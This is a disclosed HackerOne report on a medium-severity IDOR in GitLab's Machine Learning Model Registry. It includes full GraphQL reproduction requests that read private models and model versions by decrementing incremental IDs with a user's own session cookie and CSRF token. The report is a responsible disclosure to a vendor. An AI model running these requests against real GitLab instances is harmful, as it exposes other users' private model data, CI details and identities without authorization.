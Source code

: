 # IDOR Exposes All Machine Learning Models

## Report Details
- **Report ID**: 2528293
- **URL**: https://hackerone.com/reports/2528293
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2024-05-31T04:22:25.349Z
- **Disclosed**: 2024-10-01T09:38:46.725Z

## Reporter
- **Username**: moblig
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
### Summary

Hi team,

I found an IDOR affecting the Machine Learning Model Registry in Gitlab (https://docs.gitlab.com/ee/user/project/ml/experiment_tracking/)
This vulnerability allows an attacker to access any Model Registry as well as different versions of the model. Model ID's are also easy to guess as they are incremental, making it easy for an attacker to expose all models

*Example of exposed Model*
{F3314537}

### Steps to reproduce

You can use two accounts to validate this vulnerability, but to make reproduction simpler, I created a private project with the Model Registry specifically set as 'private' so that you can validate that private models are indeed accessible through this IDOR
{F3314516}

1. Login to https://gitlab.com 
2. Intercept any response to `/api/graphql` and extract the values of the `cookie`& `X-Csrf-Token` headers in order to replace them in the request below:
```bash
POST /api/graphql HTTP/2
Host: gitlab.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Content-Length: 1620
Origin: https://gitlab.com
Cookie: <replace-here>
X-Csrf-Token: <replace-here>

{"operationName":"getModel","variables":{"id":"gid://gitlab/Ml::Model/1000401"},"query":"query getModel($id: MlModelID!) {\n  mlModel(id: $id) {\n    id\n    description\n    name\n    versionCount\n    candidateCount\n    latestVersion {\n      id\n      version\n      packageId\n      description\n      candidate {\n        id\n        name\n        iid\n        eid\n        status\n        params {\n          nodes {\n            id\n            name\n            value\n            __typename\n          }\n          __typename\n        }\n        metadata {\n          nodes {\n            id\n            name\n            value\n            __typename\n          }\n          __typename\n        }\n        metrics {\n          nodes {\n            id\n            name\n            value\n            step\n            __typename\n          }\n          __typename\n        }\n        ciJob {\n          id\n          webPath\n          name\n          pipeline {\n            id\n            mergeRequest {\n              id\n              iid\n              title\n              webUrl\n              __typename\n            }\n            user {\n              id\n              avatarUrl\n              webUrl\n              username\n              name\n              __typename\n            }\n            __typename\n          }\n          __typename\n        }\n        _links {\n          showPath\n          artifactPath\n          __typename\n        }\n        __typename\n      }\n      _links {\n        showPath\n        __typename\n      }\n      __typename\n    }\n    __typename\n  }\n}\n"}
```
As you can see, information from the private model is exposed:
{F3314518}

Since the ID is easily guessable, you can decrement the value of the ID in order to access other Models.

3. Also, the response to the request above includes the ID of the different model versions, you can confirm these can also be accessed by using the following request:

```bash
POST /api/graphql HTTP/2
Host: gitlab.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Content-Length: 1714
Origin: https://gitlab.com
Cookie: <replace-here>
X-Csrf-Token: <replace-here>

{"operationName":"getModelVersion","variables":{"modelId":"gid://gitlab/Ml::Model/1000401","modelVersionId":"gid://gitlab/Ml::ModelVersion/1000535"},"query":"query getModelVersion($modelId: MlModelID!, $modelVersionId: MlModelVersionID!) {\n  mlModel(id: $modelId) {\n    id\n    name\n    version(modelVersionId: $modelVersionId) {\n      id\n      version\n      packageId\n      description\n      candidate {\n        id\n        name\n        iid\n        eid\n        status\n        params {\n          nodes {\n            id\n            name\n            value\n            __typename\n          }\n          __typename\n        }\n        metadata {\n          nodes {\n            id\n            name\n            value\n            __typename\n          }\n          __typename\n        }\n        metrics {\n          nodes {\n            id\n            name\n            value\n            step\n            __typename\n          }\n          __typename\n        }\n        ciJob {\n          id\n          webPath\n          name\n          pipeline {\n            id\n            mergeRequest {\n              id\n              iid\n              title\n              webUrl\n              __typename\n            }\n            user {\n              id\n              avatarUrl\n              webUrl\n              username\n              name\n              __typename\n            }\n            __typename\n          }\n          __typename\n        }\n        _links {\n          showPath\n          artifactPath\n          __typename\n        }\n        __typename\n      }\n      _links {\n        showPath\n        __typename\n      }\n      __typename\n    }\n    __typename\n  }\n}\n"}
```
{F3314528}

## Impact

Access to all existing models since the ID is incremental.
This affects all Gitlab tiers, offerings as well as Gitlab most recent version

> Tier: Free, Premium, Ultimate
Offering: GitLab.com, Self-managed, GitLab Dedicated
History 
- Introduced in GitLab 15.11 as an experiment release with a flag named ml_experiment_tracking. Disabled by default. To enable the feature, an administrator can enable the feature flag named ml_experiment_tracking.
- Generally available in GitLab 16.2.

## Attachments
- Screenshot_2024-05-30_at_9.12.16_PM.png
- Screenshot_2024-05-30_at_10.04.49_PM.png
- Screenshot_2024-05-30_at_10.14.43_PM.png
- Screenshot_2024-05-30_at_9.50.10_PM.png
